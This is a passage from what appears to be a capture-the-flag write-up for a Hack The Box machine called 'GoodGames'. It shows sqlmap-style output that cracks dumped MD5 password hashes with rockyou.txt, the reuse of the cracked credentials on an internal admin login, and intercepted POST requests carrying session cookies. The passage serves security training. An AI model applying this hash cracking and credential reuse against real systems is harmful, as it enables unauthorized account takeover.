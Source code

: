 ```
> /home/lotape6/resources/hack/rockyou.txt
[18:55:43] [INFO] using custom dictionary
do you want to use common password suffixes? (slow!) [y/N] n
[18:55:46] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[18:55:46] [INFO] starting 12 processes 
[18:55:47] [INFO] cracked password 'test' for hash '098f6bcd4621d373cade4e832627b4f6'                   
[18:56:02] [INFO] cracked password 'superadministrator' for hash '2b22337f218b2d82dfc3b6f77e7cb8ec'     
Database: main                                                                                          
Table: user
[2 entries]
+-------------------------------------------------------+
| password                                              |
+-------------------------------------------------------+
| 098f6bcd4621d373cade4e832627b4f6 (test)               |
| 2b22337f218b2d82dfc3b6f77e7cb8ec (superadministrator) |
+-------------------------------------------------------+


```

In ```http://internal-administration.goodgames.htb/login``` you can find out that `admin` and `superadministrator` does work for credentials.

In the settings tab we inspect the post on a new user creation:

```
POST /settings HTTP/1.1
Host: internal-administration.goodgames.htb
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 8
Origin: http://internal-administration.goodgames.htb
Connection: keep-alive
Referer: http://internal-administration.goodgames.htb/settings
Cookie: session=.eJwljk1qQzEMhO_idRbWj205l3lIlkRLoIX3klXI3WvobuYbhpl3OfKM66vcn-crbuX49nIvk6iyLJrZRYdRDYc6UUwcgqXRwjWSBgSRSa2NOpKtljrEXZZ32BprBFp16snSc7Sq1nd5M5ywoxRnBUkjaDiZQQhS2bPsI68rzv83sO26zjyev4_42UAn0lIV25vDh6aY6sJ05JGtARmzCmP5_AGBuD8y.Zy4IlA.OH2OCiJCAnlEfrDhsl4CDUlL_bU
Upgrade-Insecure-Requests: 1
Priority: u=0, i

name=ASD


================================================================================
POST /settings? HTTP/1.1
Host: internal-administration.goodgames.htb
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 8
Origin: http://internal-administration.goodgames.htb
Connection: keep-alive
Referer: http://internal-administration.goodgames.htb/settings?
Cookie: session=.eJwljk1qQzEMhO_idRbWj205l3lIlkRLoIX3klXI3WvobuYbhpl3OfKM66vcn-crbuX49nIvk6iyLJrZRYdRDYc6UUwcgqXRwjWSBgSRSa2NOpKtljrEXZZ32BprBFp16snSc7Sq1nd5M5ywoxRnBUkjaDiZQQhS2bPsI68rzv83sO26zjyev4_42UAn0lIV25vDh6aY6sJ05JGtARmzCmP5_AGBuD8y.Zy4IlA.OH2OCiJCAnlEfrDhsl4CDUlL_bU
```